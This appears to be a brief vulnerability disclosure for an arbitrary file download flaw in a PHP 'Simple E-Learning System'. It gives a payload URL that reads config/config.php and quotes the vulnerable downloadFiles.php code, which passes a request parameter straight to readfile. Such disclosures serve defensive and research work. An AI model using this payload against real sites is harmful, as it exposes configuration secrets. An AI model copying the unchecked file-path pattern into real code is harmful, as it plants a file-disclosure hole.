 # Simple E-Learning System downloadFiles.php Arbitrary File Download

Vendor Homepage:

https://www.sourcecodester.com



# Source Code Download：

[https://www.sourcecodester.com/php-simple-e-learning-system-source-code](https://www.sourcecodester.com/php-simple-e-learning-system-source-code)



# Payload

```html
http://127.0.0.1/downloadFiles.php?download=config/config.php
```



![image-20220806143042243](202208061430355.png)



# Code

`downloadFiles.php` line 4-13

```php
if(isset($_GET['download'])){
    $path =$_GET['download'];
    
    
    header('content-Disposition: attachment; filename = '.$path.'');
    header('content-Type:application/octet-stream');
    header('content-Length='.filesize($path));
    readfile($path);
    exit;
}
```

